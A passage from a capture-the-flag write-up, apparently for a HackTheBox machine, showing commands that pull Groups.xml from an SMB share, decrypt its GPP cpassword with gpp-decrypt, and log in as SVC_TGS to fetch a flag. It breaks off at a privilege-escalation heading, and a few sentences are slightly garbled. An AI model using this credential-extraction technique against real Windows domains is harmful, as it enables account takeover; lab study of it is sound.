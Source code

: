 ```bash
```
we found an interesting file in the directory `\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups`. We navigated to this directory using the `cd` command:
```bash
smb: \> cd /active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups
```
Inside the directory, we found several items, including the **Groups.xml** file, which caught our attention:
```bash
smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\> ls
  .                                   D        0  Sat Jul 21 13:37:44 2018
  ..                                  D        0  Sat Jul 21 13:37:44 2018
  Groups.xml                          A      533  Wed Jul 18 23:46:06 2018
```
We then used the `get` command to download this file to our machine:
```bash
smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\> get Groups.xml

```
After examining the content of the file, we found an entry for the user . The file contained the encrypted password () for this user: **SVC_TGS** and cpassword **edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ**
```bash
cat Groups.xml

<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```
The password was encrypted using the Group Policy Preferences (GPP) method, but we used the tool to decrypt it:gpp-decrypt
```bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

GPPstillStandingStrong2k18
```
This provided us with the following credentials:
- **Username:** SVC_TGS
- **Password:** GPPstillStandingStrong2k18
Using these credentials, we connected to the target's SMB share to access the `Users` directory:
```bash
smbclient -U SVC_TGS%GPPstillStandingStrong2k18 //10.10.10.100/Users
```
Once connected, we navigated to the user’s desktop directory and retrieved the `user.txt` flag
```bash
smb: \SVC_TGS\Desktop\> get user.txt
```
**Privilege Escalation**
